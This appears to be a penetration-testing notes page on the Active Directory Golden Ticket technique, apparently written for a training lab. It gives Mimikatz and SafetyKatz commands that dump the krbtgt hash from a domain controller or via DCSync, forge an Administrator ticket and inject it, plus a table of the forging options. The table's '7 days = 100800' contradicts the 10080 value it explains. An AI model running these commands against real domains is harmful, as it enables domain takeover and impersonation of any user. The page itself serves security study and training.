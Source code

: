 # Golden Ticket

Golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Using Golden ticket can be used to impersonate any user with any privileges.



## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

## Create The Ticket

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<user_sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

dir \\dcorp-dc\c$ # check if worked
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

